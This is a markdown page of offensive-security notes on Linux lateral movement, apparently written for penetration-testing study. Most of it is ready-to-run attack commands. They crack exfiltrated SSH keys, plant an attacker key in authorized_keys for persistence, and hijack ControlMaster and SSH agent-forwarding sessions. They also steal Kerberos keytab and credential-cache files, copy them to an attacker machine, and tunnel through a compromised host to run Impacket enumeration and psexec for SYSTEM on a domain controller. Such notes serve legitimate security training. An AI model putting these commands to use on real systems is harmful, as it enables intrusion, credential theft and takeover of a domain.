 ```yaml
---
title: Linux lateral movement
tags:
  - breach
  - operations
  - linux
  - lateral
  - movement
  - ssh
  - keys
---
```


## Helpful SSH tips

### Attacking private keys

Look for private key files in their default location for different users, e.g.
`/home/${USERNAME}/.ssh/*`. We can get information about hosts recently
connected to via SSH by reading through `/home/${USERNAME}/.ssh/known_hosts`.

We can exfiltrate SSH private keys and attempt to crack them with
**JohnTheRipper**. To prepare a SSH private key for cracking, invoke the
following:

```bash
python /usr/share/john/ssh2john.py ${SSH_PRIV_KEY} > ${OUTFILE}.hash
sudo john --wordlist=/usr/share/wordlists/rockyou.txt ${OUTFILE}.hash
```

### Persistence

Invoke the following to generate a new key pair on your attacker host:

```bash
ssh-keygen
```

Copy the contents of the public key, `.pub`, to you clipboard and write it to
the victim's `authorized_keys` file, persisting your ability to reestablish
future connections without credentials. Here's an example:

```bash
echo "${PUB_KEY_CONTENTS}" >> /home/${USERNAME}/.ssh/authorized_keys
```

### Hijacking with ControlMaster

**ControlMaster** is a feature in SSH that enables multiple session over a
single network connection. We can place the following contents in the
`/home/${USERNAME}/.ssh.config` to enable this feature:

```txt
Host *
        ControlPath ~/.ssh/controlmaster/%r@%h:%p
        ControlMaster auto
        ControlPersist 10m
```

Invoke the following to enable this feature:

```bash
chmod 644 ~/.ssh/config
mkdir ~/.ssh/controlmaster
```

When the user we've created this ControlMaster configuration for establishes an
SSH connection to other remote hosts, it will create a socket file in
`~/.ssh/controlmaster`. Once they establish a connection, we can also SSH to the
same target, piggybacking off their connection.

If we're not logged in as the same user as the victim user, or as the `root`
user, we can piggyback of their SSH session by invoking the following:

```bash
ssh -S ${PATH_TO_CONTROLMASTER_SOCKET} ${USER}@${RHOST}
```

### Hijacking SSH-Agent and SSH Agent Forwarding

**SSH-Agent** is a utility users can use locally to keep track of their
passphrases for private keys. **SSH Agent Forwarding** is a utility we can use
to connect to remote hosts using an intermediate host, where the intermediate
host doesn't have to store our private key.

The problem is that, if a `root` user has compromised the intermediate host,
they can hijack a session established with SSH Agent Forwarding. Invoke the
following on an intermediate host to find hijacking opportunities:

```bash
ps aux | grep ssh
pstree -p offsec | grep ssh
```

Given the process ID for an interactive session established through SSH, we can
inspect the process' environment variables to find its `SSH_AUTH_SOCK`. Invoke
the following to read a process' environment variables:

```bash
cat /proc/${PROCESS_ID}/environ
```

With a valid `SSH_AUTH_SOCK`, we can add the key for the SSH Agent to our cache.
Then we can hijack the victim's session, for example:

```bash
SSH_AUTH_SOCK=${VICTIM_SSH_AUTH_SOCK_PATH} ssh-add -l
SSH_AUTH_SOCK=${VICTIM_SSH_AUTH_SOCK_PATH} ssh ${USER}@${RHOST}
```

## Helpful Kerberos tips

### Keytab files

**Keytab** files enable users to access **Kerberos**-enabled network resources
while impersonating the user who created the keytab file. These files usually
contain a **User Principal Name (UPN)** for the domain and encrypted keys.

If you're the `root` user on a Linux machine, or you can read / access a user's
keytab files, you can load this keytab file into your cache and authenticate as
the user within the domain and access Kerberos-enabled resources the user can
access. Here's an example invocation of loading and refreshing a token for a
keytab file:

```bash
kinit ${UPN} -k -t ${KEYTAB_FILEPATH}
kinit -R
```

### Credential cache files

**Kerberos credential cache** files are written to the `/tmp` directory. As the
`root` user, if they're accessible, we can acquire them and reuse the victim
user's Ticket Granting Ticket (TGT) to access Kerberos-enabled network services.
Here's an example attack:

```bash
ls -al /tmp/krb5cc_*
sudo cp ${TARGET_CCACHE_FILE} ${OUTFILE}
sudo chown ${GROUP}:${USER} ${OUTFILE}
kdestroy
klist
export KRB5CCNAME=${OUTFILE}
klist
```

### Impacket

Using [Impacket](https://github.com/fortra/impacket), we can use a domain-joined
compromised Linux host to enumerate and attack the domain from our attacker Kali
machine. First we'll exfil our stolen **ccache** file:

```
scp ${USER}@${RHOST}:${OUTFILE} ${LOCALFILE}
export KRB5CCNAME=${LOCALFILE}
sudo apt install krb5-user --yes
```

Make sure to modify your `/etc/hosts` file to enable domain name resolution for
the Domain Controller's (DC) hostname. Also comment out the `proxy_dns`
configuration for `/etc/proxychains.conf`.

Establish a dynamic tunnel through the domain-joined, compromised host, for
example:

```bash
ssh ${OFFSEC}@${RHOST} -D 9050 -N
```

After all this setup, we can now enumerate users within the domain with the
following:

```bash
proxychains python /usr/share/doc/python3-impacket/examples/GetADUsers.py -all -k -no-pass -dc-ip ${DCHOST} ${DOMAIN}/${USER}
```

We can also acquire all the **Service Principal Names (SPN)** for services in
the domain:

```bash
proxychains python /usr/share/doc/python3-impacket/examples/GetUserSPNs.py -k -no-pass -dc-ip ${DCHOST} ${DOMAIN}/${USER}
```

Here's an example of using `psexec` through our tunnel to obtain code execution
as **SYSTEM** on the DC:

```bash
proxychains python /usr/share/doc/python3-impacket/examples/psexec.py -k -no-pass ${UPN}
```

